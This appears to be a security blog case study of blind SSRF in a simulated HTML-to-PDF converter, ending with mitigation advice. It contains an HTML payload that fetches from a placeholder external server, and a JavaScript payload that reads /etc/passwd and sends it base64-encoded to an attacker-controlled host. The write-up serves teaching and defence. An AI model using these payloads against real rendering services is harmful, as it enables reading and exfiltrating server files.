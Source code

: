 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23
author: 0xLuc4s
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

```html
<!DOCTYPE html>
<html>
<body>
    <h1>Hello World!</h1>
    <img src="http://<EXTERNAL SERVICE IP>:9090/test-image">
</body>
</html>

## Observations and Results

Upon processing the HTML file, the application attempted to fetch the image from the specified URL, thus confirming the SSRF vulnerability. This behavior was indicative of the application performing unauthorized external interactions based on HTML content, a critical aspect for SSRF exploitation.

## JavaScript Exploitation and Data Exfiltration

Further exploration revealed that the application's PDF conversion tool allowed JavaScript execution within the HTML files. Leveraging this, we crafted a JavaScript snippet to read a sensitive local file and send its contents to our external server:

```html
<html>
<body>
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "file:///etc/passwd", true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            // Encode the file contents in base64
            var b64content = btoa(xhr.responseText);
            // Send the encoded data to the external server
            var exfil = new XMLHttpRequest();
            exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
            exfil.send();
        }
    };
    xhr.send();
    </script>
</body>
</html>

## Mitigation Strategies

To mitigate blind SSRF vulnerabilities, it is essential to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server can access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, particularly in applications that process external input to interact with internal or external resources. Understanding and mitigating these vulnerabilities is crucial for securing web applications against potential attacks and data breaches. These strategies not only protect against SSRF but also reinforce the overall security posture of your digital infrastructure.
